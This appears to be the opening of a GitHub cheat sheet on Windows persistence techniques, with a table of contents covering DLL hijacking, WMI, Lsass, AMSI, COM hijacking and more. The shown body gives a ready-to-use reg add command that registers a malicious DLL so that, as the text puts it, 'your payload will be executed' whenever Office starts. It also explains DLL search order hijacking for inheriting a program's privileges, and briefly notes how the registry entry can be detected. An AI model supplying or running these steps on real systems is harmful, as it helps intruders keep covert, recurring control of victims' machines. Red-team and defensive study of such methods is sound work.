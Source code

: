 # Windows persistence addons

</br>

* [Non admin](#Non-admin)
	* [Malicious dll](#Add-malicious-dll-file-in-reg)
	* [DLL Search Order Hijacking](#DLL-Search-Order-Hijacking)
	* [Screensaver](#Screensaver)
	* [Shortcut Modification](#Shortcut-Modification)
	* [Waitfor](#Waitfor)
* [Admin](#Admin)
	* [Debugger](#Debugger)
	* [WMI](#Using-WMI-Windows-Management-Instrumentation)
	* [AppInit](#AppInit)
	* [Lsass](#System-process-Lsass)
	* [Netsh](#Netsh)
	* [AppCert DLLs](#AppCert-DLLs)
	* [Authentification Packages](#Authentification-Packages)
	* [Change default file association](#Change-default-file-association)
	* [Path Interception](#Path-Interception)
	* [Port Monitors](#Port-Monitors)
	* [Time providers](#Time-providers)
	* [AMSI](#AMSI-Antimalware-Scan-Interface)
	* [COM Hijacking](#COM-Hijacking)
* [More methods](#More-methods)



</br>

# Non admin
</br>

##  Add malicious dll file in reg

#### Example(Microsoft office):
```powershell
reg add "HKCU\Software\OfficeMicrosoft\ test\Special\Perf" /t REG_SZ /d C:\path\to\badguy.dll
```
Every time when user starts a new session in Microsoft office apps,  your payload will be executed.

#### Detection:
User can see malicious string in reg **HKCU**

</br></br>

## DLL Search Order Hijacking

Some programs search for necessary **.dll** files in their local directory. You can simply change this **dll's** to yours. (If program runs with admin or system privileges, your dll will also have that privileges)
